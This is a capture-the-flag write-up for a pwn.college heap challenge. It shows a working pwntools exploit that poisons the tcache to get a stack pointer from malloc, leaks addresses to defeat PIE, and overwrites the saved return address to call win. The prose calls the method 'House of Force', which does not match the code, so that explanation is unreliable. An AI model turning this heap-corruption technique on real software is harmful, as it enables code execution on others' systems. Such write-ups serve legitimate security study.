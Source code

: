 ```yaml
---
layout: post
title: (Dynamic Allocator Misuse) level 11
categories: pwn.college Dynamic-Allocator-Misuse
date: 2025-10-07 13:00:21 +0300
tags: pwn.college PIE ASLR heap house-of-force tecache metadata
---
```


## Information
- category: pwn


## Description 
> Leverage TCACHE exploits to gain control flow.

## Write-up

**Goal:** use a heap primitive (House of Force style) to leak a stack address and PIE base, then overwrite the saved return address to call `win`.

### Summary
Malloc a small chunk, free it, then abuse the allocator metadata to make subsequent `malloc` return pointers into stack frames. Use small `echo`/read primitives to leak stack/return addresses, compute PIE offsets, then overwrite the return address with the `win` address and trigger the function return.

### Steps

### 1. Leak a stack pointer
1. `malloc(32)` and then `free()` the chunk (call this index `0`).
2. For the same index `0`, call `echo(0, offset = 8)` — reading at offset `8` prints a pointer that lies on the stack.
   - This leaks a stack address you can use to calculate offsets to saved return addresses and other saved frames.

### 2. Force the allocator to return a stack pointer
1. Use the House of Force primitive to manipulate the top chunk size / allocation pointer so the next `malloc` returns an address on the stack (the address you leaked).
2. `malloc(...)` now returns a pointer that points into stack memory.

### 3. Leak the return address (bypass PIE)
1. With the stack-mapped `malloc`/index in hand, call `echo(0, 16)` — this prints the saved return address from the stack frame.
2. From that leaked return address you can compute the PIE base and recover absolute addresses for `win`.

### 4. Overwrite return address and trigger `ret2win`
1. Since you have an index that maps to the stack, write a payload that places:
   - `0x10` bytes of padding,
   - followed by `p64(win_addr)` (the absolute address of `win`).
2. Ensure you keep any required canary or saved frame values intact if present.
3. return from the function so execution jumps to `win` and you get the flag.

Example conceptual payload (adjust offsets and widths for target):
```text
[ padding (0x10) ]
[ saved rbp (if needed) ]
[ ret addr -> p64(win_addr) ]
```

## Exploit

```python
from pwn import *

elf = context.binary = ELF("/challenge/babyheap_level11.1")
global p
p = elf.process()

def malloc(idx,size):
    p.sendline(b"malloc")
    p.sendline(idx)
    p.sendline(size)

def free(idx):
    p.sendline(b"free")
    p.sendline(idx)

def scanf(idx,data):
    p.sendline(b"scanf")
    p.sendline(idx)
    p.sendline(data)

def echo(idx,offset):
    p.sendline(b"echo")
    p.sendline(idx)
    p.sendline(offset)

def quit():
    p.sendline(b"quit")

def exploit():
    malloc(b"0",b"32")
    free(b"0")

    echo(b"0",b"8")

    p.recvuntil(b"Data: ")
    stack = u64(p.recvline().strip().ljust(8,b"\x00")) + 6
    log.success(f"stack: {hex(stack)}") 

    malloc(b"0",b"32")
    malloc(b"1",b"32")

    free(b"1")
    free(b"0")

    scanf(b"0",p64(stack))

    malloc(b"0",b"32")
    malloc(b"0",b"32")

    echo(b"0",b"16")

    p.recvuntil(b"Data: ")
    win = u64(p.recvline().strip().ljust(8,b"\x00")) - 0x1a93 + 0x1500
    log.success(f"win : {hex(win)}") 

    payload = b"A"*0x10 + p64(win)

    scanf(b"0",payload)
    p.interactive()

def main():
    exploit()

if __name__ == "__main__":
    main()
```